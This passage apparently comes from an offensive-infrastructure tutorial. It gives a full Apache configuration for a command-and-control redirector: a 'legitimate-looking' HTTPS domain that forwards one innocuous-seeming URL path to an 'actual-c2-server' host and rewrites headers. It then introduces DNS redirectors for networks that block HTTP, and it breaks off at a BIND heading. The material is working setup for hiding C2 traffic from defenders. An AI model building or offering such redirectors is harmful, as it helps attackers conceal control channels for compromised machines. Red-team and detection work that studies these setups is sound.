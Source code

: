 #### Apache Implementation

If you prefer Apache, here's how to do the same thing:

```apache
<VirtualHost *:80>
    ServerName legitimate-looking-domain.com
    ServerAdmin admin@example.com
    DocumentRoot /var/www/legitimate-looking-domain.com

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    # Redirect everything to HTTPS
    Redirect permanent / https://legitimate-looking-domain.com/
</VirtualHost>

<VirtualHost *:443>
    ServerName legitimate-looking-domain.com
    ServerAdmin admin@example.com
    DocumentRoot /var/www/legitimate-looking-domain.com

    SSLEngine on
    SSLCertificateFile /etc/letsencrypt/live/legitimate-looking-domain.com/fullchain.pem
    SSLCertificateKeyFile /etc/letsencrypt/live/legitimate-looking-domain.com/privkey.pem

    # Redirect specific URI pattern
    ProxyPass /news/api/v1/ https://actual-c2-server.com:443/api/
    ProxyPassReverse /news/api/v1/ https://actual-c2-server.com:443/api/
    
    # Set headers for client tracking
    ProxyPreserveHost Off
    RequestHeader set Host "actual-c2-server.com"
    RequestHeader set X-Forwarded-For "%{REMOTE_ADDR}s"
</VirtualHost>
```

This Apache setup does similar things:
- Forces everything to HTTPS
- Forwards only specific URLs to your C2
- Sets the right headers for tracking

Whether you pick Nginx or Apache comes down to what you know better and what features you need. Nginx is usually faster for proxying, but Apache might have more modules you can use.

### DNS Redirectors

DNS redirectors handle domain lookups, which is perfect for environments that lock down HTTP but still allow DNS queries (pretty much all networks).

#### BIND Implementation

BIND is the most common DNS server, and it works great for redirectors:
